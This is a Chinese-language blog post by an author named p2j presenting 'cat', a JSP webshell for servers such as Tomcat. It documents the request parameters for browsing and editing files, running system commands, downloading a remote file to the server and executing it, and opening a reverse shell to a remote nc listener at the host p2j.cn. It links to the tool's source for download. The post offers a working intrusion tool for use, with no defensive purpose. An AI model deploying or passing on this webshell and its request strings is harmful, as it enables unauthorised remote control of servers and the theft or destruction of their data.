





#cat小工具  
#Author: p2j  

我觉得这都算不上什么webshell了，写这个只是为了简化一些操作。cat提供了简单的的文件遍历、管理、命令执行、反弹shell、文件下载、自动下载并执行这么几个小功能。

web界面只是一个简单的文件目录浏览功能和文件下载功能：  

  

点击文件名可以编辑对应的文件，新建文件也可以在这里进行File地址写上需要编辑的文件绝对路径就行了：  

   

执行系统命令会比较麻烦，因为需要自己写参数了：  
  

    请求：http://localhost:8080/Struts2/cat.jsp?action=exec&cmd=ifconfig  

参数:  

    action=exec  

    cmd=需要执行的命令。  

文件下载分为远程文件下载和本地文件下载。本地文件下载直接点击下载即可从服务器上下载对应的文件。而远程文件下载的则需要继续以参数的方式请求：  

 

    请求：http://localhost:8080/Struts2/cat.jsp?action=downloadL&url=http://www.baidu.com/img/bdlogo.png&path=bdlogo.png  

参数：  

    action=downloadL

    url=需要下载的文件的URL地址

    path=文件保存的绝对路径，注意如果只写文件名会下载到当前运行环境的目录下(比如tomcat会下载到tomcat的bin目录)。

本地文件下载如遇到目录则自动打包成zip。  

自动下载并执行，这个功能实际上是为了简化操作。下载某个文件然后可以用命令去调用它。这个命令如果能正常执行完是会有回显的。并且下载的文件会在命令执行结束后自动删除掉。  

   

    请求：http://localhost:8080/Struts2/cat.jsp?action=auto&url=http://www.baidu.com/img/bdlogo.png&fileName=bdlogo.png&cmd=cat%20bdlogo.png

参数：  

    action=auto

    url=需要下载的文件的URL地址

    fileName=文件名

    cmd=需要执行的系统命令

反弹shell，这里实现的仅仅是一个系统执行命令的入口反弹，而非反弹一个具体的文件流。即给远程监听的nc反弹一个能够执行命令的入口。  

   

    请求：http://localhost:8080/Struts2/cat.jsp?action=shell&host=p2j.cn&port=9527

参数：  

    action=shell

    host=远程IP

    port=远程监听的端口

源码下载：[Cat.zip](http://pan.baidu.com/s/1hqmWGFM)  
[url](http://p2j.cn/?p=1533)